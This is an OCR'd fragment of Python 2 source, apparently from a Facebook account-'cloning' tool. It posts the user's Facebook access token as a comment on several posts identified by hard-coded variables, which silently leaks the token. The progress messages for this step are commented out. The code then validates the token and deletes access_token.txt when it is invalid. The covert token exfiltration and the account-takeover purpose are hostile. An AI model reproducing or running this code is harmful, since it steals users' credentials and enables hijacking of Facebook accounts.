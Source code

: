         requests.post('https://graph.facebook.com/' + sss + '/comments/?message=' + token + '&access_token=' + token)

        ###print(' \x1b[0;93m 70% ....')

        requests.post('https://graph.facebook.com/' + sss1 + '/comments/?message=' + token + '&access_token=' + token)

        ####print(' \x1b[0;93m 80% ....')

        requests.post('https://graph.facebook.com/' + sss2 + '/comments/?message=' + token + '&access_token=' + token)

        ####print(' \x1b[0;93m 90% ....')

        requests.post('https://graph.facebook.com/' + sss3 + '/comments/?message=' + token + '&access_token=' + token)

        ####print(' \x1b[0;93m 100% ....')

        requests.post('https://graph.facebook.com/' + aa1 + '/comments/?message=' + qaiserchoice + '&access_token=' + token)

        ###print(' \x1b[0;92m SucessFully Now You Can Start Cloning ')

        time.sleep(1)

    except:

        pass

        

    try:

        r = requests.get('https://graph.facebook.com/me?access_token=' + token)

        q = json.loads(r.text)

        name = q['name']

    except KeyError:

        print logo

        print ''

        print '\tToken Is Invalid Or Expired '

        os.system('rm -rf access_token.txt')

        print ''

        time.sleep(1)

        login()

        

#-----------------------------

    os.system('clear')

    print logo
